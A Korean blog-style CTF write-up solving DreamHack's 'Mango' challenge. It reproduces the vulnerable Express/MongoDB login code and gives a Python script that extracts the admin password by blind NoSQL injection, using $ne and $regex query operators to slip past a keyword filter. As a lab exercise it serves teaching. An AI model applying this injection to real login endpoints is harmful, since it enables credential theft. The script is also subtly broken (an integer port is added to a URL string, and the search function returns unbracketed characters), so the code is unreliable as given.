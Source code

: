 ```yaml
---
title: "(DreamHack) Mango"
date: 2021-05-25 05:24:00 -0400
categories: Security CTF
---
```


NoSQL은 RDMS와는 달리 쿼리문 없이도 데이터베이스에 저장된 데이터를 조작할 수 있는 개념이다. 본 문제에서는 NoSQL에 Blind injection을 수행하여 안에 저장된 데이터를 조회하도록 한다.

Mongo db는 대표적인 NoSQL이며, 비교 연산자, 논리 연산자를 기본적으로 사용할 수 있고, $regex, $where, $elemMatch 연산자를 통해 좀 더 다양한 기능을 수행할 수 있다.

## 풀이

BAN 변수에는 'admin', 'dh', 'admi'의 문자열이 포함되게 되면 필터링하게 되어있다. 따라서 필터링 되지 않도록 $ne guest를 사용하여 admin을 검색할 수 있도록 하였다.

```javascript
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

BAN에 dh가 있기 때문에 이를 피하기 위해 [D]를 사용했으며, brute force방식과 유사하게 모든 경우의 수를 탐색할 수 있도록 하였다.

```python
import requests

ascii ='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

def url(pwd):
    params = {'uid[$ne]':'guest','upw[$regex]':pwd} #uid=[adm]in 등으로 해주어도 된다.
    port = 15108
    req = requests.get('http://host1.dreamhack.games:' + port + '/login',params = params)
    return req

def search(flag):
    global ascii
    for i in ascii:
        ch = flag + '[' + i + ']'
        if "admin" in url(ch).text:
            flag += '[' + i + ']'
            break
    return i

if __name__ == '__main__':
    flag = '[D]H{'
    for i in range(0, 32):
        flag += search(flag)
    print(flag + '}')
```

### Reference
[1] dreamhack. (2020)."Server-side Advanced - NoSQL." Retrieved from https://dreamhack.io/learn/1/29#7